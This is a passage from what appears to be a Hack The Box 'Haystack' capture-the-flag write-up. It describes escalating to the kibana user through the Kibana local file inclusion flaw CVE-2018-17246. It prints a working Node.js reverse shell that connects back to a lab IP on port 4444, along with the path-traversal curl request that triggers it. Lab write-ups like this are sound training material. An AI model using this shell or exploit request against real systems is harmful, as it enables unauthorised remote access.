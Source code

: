 ### Pivot to kibana user

Researching known vulnerabilities in Elasticsearch `6.4.2`, we've come across [CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246). The Github user [mpgn](https://github.com/mpgn) has provided a proof of concept we can leverage to exploit this vulnerability for local file inclusion (LFI). This should allow us to get a shell as the user `kibana`, and do more with `logstash` than we currently have permission to do.

The javascript reverse shell code provided is as follows. All that's needed for this to work out of the box is replacing our IP and port that netcat is listening on.

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.19", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

We place the shell code into a directory to which we have access as the `security` user. In this case we place the shell into `/dev/shm`, and name it `mahshell.js`.

We are able to determine that `kibana` is running locally on port `5601` by reading the `/etc/kibana/kibana.yml` file.

![kibana yml](/posts/images/hack-the-box-haystack-writeup/kibana_yml.png)
**Figure 3:** kibana.yml

We can make the following `curl` request to execute our reverse shell code.

```console
[security@haystack shm]$ curl -X GET "localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../../dev/shm/mahshell.js" -H "kbn-xsrf: true"
```

![kibana user](/posts/images/hack-the-box-haystack-writeup/kibana_user.png)
**Figure 4**: Shell as kibana user.

Now that we are the user `kibana`, we go back to the configuration files under `/etc/logstash/conf.d` and check out what `filter.conf` contains.

```console
bash-4.2$ cd /etc/logstash/conf.d
cd /etc/logstash/conf.d
bash-4.2$ ls -la
ls -la
total 12
drwxrwxr-x. 2 root kibana  62 jun 24 08:12 .
drwxr-xr-x. 3 root root   183 jun 18 22:15 ..
-rw-r-----. 1 root kibana 131 jun 20 10:59 filter.conf
-rw-r-----. 1 root kibana 186 jun 24 08:12 input.conf
-rw-r-----. 1 root kibana 109 jun 24 08:12 output.conf
bash-4.2$ cat filter.conf
cat filter.conf
filter {
	if [type] == "execute" {
		grok {
			match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
		}
	}
}
```